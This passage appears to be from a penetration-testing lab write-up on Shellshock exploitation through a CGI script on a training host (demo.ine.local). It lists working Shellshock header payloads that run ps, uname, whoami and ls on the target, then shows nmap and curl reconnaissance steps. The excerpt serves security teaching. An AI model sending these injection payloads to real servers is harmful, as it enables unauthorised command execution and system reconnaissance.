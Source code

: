 #### 3️⃣ **Process Enumeration** (System reconnaissance)
```bash
() { :; }; echo; echo; /bin/bash -c 'ps -ef'

# Expected successful result:
UID    PID  PPID  C STIME TTY    TIME CMD
root     1     0  0 06:21 ?   00:00:00 /usr/bin/python
daemon  16    10  0 06:21 ?   00:00:00 /opt/apache/bin/httpd -X
```

#### 4️⃣ **System Information Gathering**
```bash
() { :; }; echo; echo; /bin/bash -c 'uname -a'
() { :; }; echo; echo; /bin/bash -c 'whoami'
() { :; }; echo; echo; /bin/bash -c 'pwd'
() { :; }; echo; echo; /bin/bash -c 'ls -la /home'
```

---

## 🔬 Real Lab Walkthrough (Step-by-Step)

### 🚀 **Phase 1: Target Discovery & Initial Reconnaissance**

```bash
# Step 1: Initial port scan
nmap demo.ine.local

# Expected Output:
Starting Nmap 7.94SVN at 2024-07-12 11:53 IST
Nmap scan report for demo.ine.local (192.88.83.3)
Host is up (0.00002s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
```

```bash
# Step 2: Web service investigation
curl http://demo.ine.local

# Look for: "Under Construction" page or web application
```

### 🔍 **Phase 2: CGI Script Discovery**

```bash
# Step 3: Source code analysis (CRITICAL STEP!)
# Navigate to: http://demo.ine.local
# Right-click → "View Page Source"
# Look for JavaScript code containing CGI references:

xhr.open("GET", "/gettime.cgi", true);
# This reveals the CGI script path: /gettime.cgi
```
